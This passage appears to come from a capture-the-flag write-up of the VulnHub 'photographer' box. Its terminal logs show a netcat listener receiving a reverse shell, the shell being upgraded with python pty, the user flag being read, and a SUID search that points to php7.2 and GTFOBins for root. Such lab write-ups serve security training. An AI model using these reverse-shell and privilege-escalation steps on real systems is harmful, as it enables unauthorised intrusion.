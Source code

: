 ```
┌─[hitesh@parrot]─[~/boxes/vulnhub/photographer]
└──╼ $nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.7] 43852
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:49:04 up 33 min,  0 users,  load average: 1.13, 1.25, 2.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@photographer:/$ ^Z
[1]+  Stopped                 nc -nvlp 8888
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/photographer]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~/boxes/vulnhub/photographer]
└──╼ $nc -nvlp 8888

www-data@photographer:/$ export TERM=xterm
www-data@photographer:/$ 
```
# User Flag
In home directory of `daisa` we get `user flag`.
```
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```
# Privsec 
Looking at SUID files, `/usr/bin/php7.2` seem suspicious to me.
```
www-data@photographer:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ntfs-3g
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```
[GTFObins](https://gtfobins.github.io/gtfobins/php/) help me to get shell.